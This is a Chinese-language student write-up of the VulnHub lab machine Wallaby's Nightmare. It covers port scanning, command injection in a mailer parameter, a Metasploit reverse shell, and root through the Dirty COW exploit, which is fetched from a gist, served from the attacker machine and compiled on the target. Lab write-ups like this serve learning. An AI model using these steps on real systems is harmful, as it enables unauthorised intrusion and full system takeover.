每周靶机之WALLABY'S-NIGHTMARE
最近加入了学校的网安工作室 每周会给点作业 小项目需要写writeup
总之这是今天的靶机
环境配置
老样子 VMWARE 靶机 kali
ps: 请注意每个人的ip都会因为配置有细微的区别 请勿照抄代码
攻击机：kali（192.168.246.128）
靶机：WALLABY’S: NIGHTMARE (V1.0.2)（192.168.246.134）
靶机下载地址：https://www.vulnhub.com/entry/wallabys-nightmare-v102,176/
发现靶机&访问网站
总之先arp-scan -l一下

发现靶机ip为192.168.246.134 使用nmap查看开放端口nmap -p- 192.168.246.134 //快速扫描常用端口

结果显示开放了22 80端口
先上firefox查看 80端口对应的http服务http://192.168.246.134

↑叫我输入个用户名 我这里就用我常用的网名了

↑点击超链接开始你的ctf之旅
解析过程
网站里有一只大眼睛 上面的英语大意是它发现了你要渗透这个服务器 正在观察你

我们先通过f12查看源码 发现没有什么隐藏的东西
于是使用web漏洞扫描工具nikto进行扫描nikto -host 192.168.246.134

nikto表示这个网站存在漏洞 于是我们随它指示将这段链接复制到firefox替换网址后半段
输完之后 enter访问 发现 欸 怎么连接不上了


↑就算是通过history看之前大眼睛的网站也链接不上
再次通过nmap扫描 看看是不是80端口的问题nmap -p- 192.168.246.134 //快速扫描常用端口

我们可以看到多出了个60080端口
让我们通过firefox访问该端口查看一下什么情况http://192.168.246.134:60080/

英语大意是惊讶你追的很紧 幸好它完全转移到了一个不同的端口
这里我们可以猜到
之前在80端口时有个/?page页面 这里也多半会有 让我们试试看

果然对劲 我们再使用dirb工具对此页面进行目录扫描dirb http://192.168.246.134:60080/?page=

结果里出现了一个后缀为mailer的网页
访问看看

看似什么都没有
但我们可以使用f12查看源码 发现有一段注释

这里<a href='/?page=mailer&mail=mail wallaby "message goes here"'><button type='button'>Sendmail</button>
暴露了存在RCE（远程代码执行漏洞）
用户通过浏览器提交执行命令，由于服务器端没有针对执行函数做过滤，导致在没有指定绝对路径的情况下就执行命令，可能会允许攻击者通过改变 $PATH 或程序执行环境的其他方面来执行一个恶意构造的代码。——以上来自百度百科
于是我们验证一下

↑通过改变命令验证
漏洞已经出现
于是乎我们便可以通过多种方式来解决了
我用的是Metasploit
1 | msfconsole |
首先输入msfconsole进入msf控制台

↑设置msf参数，开启监听
将它所反馈出的命令复制在整个网址的mail=之后来启动整个监听程序

网站一直显示加载中则多半成功了 我们ctrl+c停止后输入sessions查看
出现了一个已获取的shell
我们输入sessions 1来链接shell
随后使用sysinfo命令查看靶机的系统信息
使用shell -t命令来获取系统shell

提权
总算来到了惊心动魄的提权环节
我们再开一个cmd窗口
输入
wget+https://gist.githubusercontent.com/rverton/e9d4ff65d703a9084e85fa9df083c679/raw/9b1b5053e72a58b40b28d6799cf7979c53480715/cowroot.c
(格式所迫 只能这么写了)python3 -m http.server 8081 //开启kali的http服务
回到刚才连接到靶机的cmd窗口wget http://192.168.246.128:8081/cowroot.c //用靶机获取kali所分享的文件gcc cowroot.c -o exp -pthread //对刚刚下载的提权脚本进行编译

1 | chmod +x exp //给提权脚本赋予执行权限 |
这两句代码后 你就已经拥有了所有的权限
运用一些基础的linux语言便可获得flag
1 | cd /root //将目录切换至root |

好的那么我们下次见！